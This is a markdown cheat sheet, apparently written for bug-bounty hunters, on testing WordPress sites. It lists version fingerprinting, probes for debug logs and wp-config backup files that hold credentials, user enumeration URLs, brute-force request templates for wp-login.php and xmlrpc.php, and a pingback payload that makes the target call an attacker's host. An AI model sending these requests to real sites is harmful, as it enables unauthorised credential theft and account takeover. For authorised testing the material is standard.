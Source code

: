 # WordPress Common Bugs

## Introduction
What would you do if you came across a website that uses WordPress?

## How to Detect
If you visit `https://target.com` and see the source code, you will see the links to themes and plugins from WordPress. Or you can visit `https://target.com/wp-login.php`, it is the WordPress login admin page

1. Find the related CVE by checking the core, plugins, and theme version
* How to find the wordpress version
```
https://target.com/feed
https://target.com/?feed=rss2
```

* How to find the plugin version
```
https://target.com/wp-content/plugins/PLUGINNAME/readme.txt
https://target.com/wp-content/plugins/PLUGINNAME/readme.TXT
https://target.com/wp-content/plugins/PLUGINNAME/README.txt
https://target.com/wp-content/plugins/PLUGINNAME/README.TXT
```

> or change readme.txt to changelog.txt or readme.md

* How to find the theme version
```
https://target.com/wp-content/themes/THEMENAME/style.css
https://target.com/wp-content/themes/THEMENAME/readme.txt (If they have readme file)
```
If you found outdated core / plugins / themes, find the exploit at https://wpscan.com

2. Finding log files
```
http://target.com/wp-content/debug.log
```

3. Finding backup file wp-config
```
http://target.com/.wp-config.php.swp
http://target.com/wp-config.inc
http://target.com/wp-config.old
http://target.com/wp-config.txt
http://target.com/wp-config.html
http://target.com/wp-config.php.bak
http://target.com/wp-config.php.dist
http://target.com/wp-config.php.inc
http://target.com/wp-config.php.old
http://target.com/wp-config.php.save
http://target.com/wp-config.php.swp
http://target.com/wp-config.php.txt
http://target.com/wp-config.php.zip
http://target.com/wp-config.php.html
http://target.com/wp-config.php~
```

4. Get the username on the website
```
http://target.com/?author=1
```
or
```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

5. Bruteforce
```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```
or
```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>BRUTEFORCE_IN_HERE</value></param> 
</params> 
</methodCall>
```

6. XSPA in wordpress
```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```

7. Register enabled
```
http://example.com/wp-login.php?action=register
```